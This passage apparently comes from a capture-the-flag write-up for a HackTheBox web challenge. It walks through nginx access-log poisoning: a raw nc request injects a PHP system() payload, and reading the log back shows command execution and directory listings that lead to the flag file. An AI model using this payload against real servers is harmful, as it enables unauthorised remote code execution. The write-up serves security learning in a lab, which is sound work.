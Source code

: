 Nmap detects the version running on the HTTP service to be nginx. After googling for the location of the file, it was found that the access log is located at /var/log/nginx/access.log[\[3\]](#ftnt3):

{% highlight bash %}
$ /var/log/nginx/access.log  
167.99.88.212 - 200 "GET / HTTP/1.1" "-" "python-requests/2.13.0" 
{% endhighlight %}

When a GET request with PHP is performed on the web server, code execution can be observed:

Request:

{% highlight bash %}
┌─\[✗\]─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $nc 167.99.88.212 30105  
GET/<?php system('ls');?>  
HTTP/1.1 400 Bad Request  
Server: nginxDate: Sun, 30 May 2021 05:44:42 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 150Connection: close  
  
<html>  
<head><title>400 Bad Request</title></head>  
<body>  
<center><h1>400 Bad Request</h1></center>  
<hr><center>nginx</center>  
</body>  
</html>
{% endhighlight %}

Output:

{% highlight bash %}
$ /var/log/nginx/access.log  
167.99.88.212 - 200 "GET / HTTP/1.1" "-" "python-requests/2.13.0" 167.99.88.212 - 200 "GET / HTTP/1.1" "-" "python-requests/2.13.0" 167.99.88.212 - 400 "GET/index.html  
index.php  
models  
static  
" "-" "-" 
{% endhighlight %}

To find the flag file, the ls -R (for recursive) was used. After performing the same methodology used above, the flag file was found in the root directory of the system

{% highlight bash %}
bin  
dev  
entrypoint.sh  
etc  
flag\_zHN96  
home  
lib  
media  
mnt  
opt
{% endhighlight %}
